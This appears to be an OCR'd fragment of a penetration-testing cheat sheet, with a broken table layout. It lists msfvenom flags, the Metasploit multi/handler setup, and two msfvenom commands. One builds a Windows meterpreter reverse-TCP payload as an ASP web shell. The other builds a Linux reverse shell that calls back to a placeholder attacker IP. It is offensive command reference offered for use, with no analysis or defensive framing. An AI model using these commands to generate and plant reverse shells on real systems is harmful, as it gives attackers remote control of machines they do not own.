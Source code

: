 | -e = encoder                                                 |                                                              |
| -i = iterations of encoder                                   |                                                              |
| -b = bad characters to avoid  \x00\xff                       |                                                              |
| --platform = platform for the  payload                       |                                                              |
|                                                              |                                                              |
| Multi/Handler                                                |                                                              |
| use exploit/multi/handler                                    |                                                              |
| set payload ...                                              |                                                              |
| set LPORT                                                    |                                                              |
| set LHOST                                                    |                                                              |
| exploit                                                      |                                                              |
|                                                              |                                                              |
| msfvenom  -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address>  LPORT=<Your Port to Connect On> -f asp > shell.asp |                                                              |
| msfvenom  -p linux/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f js_le |                                                              |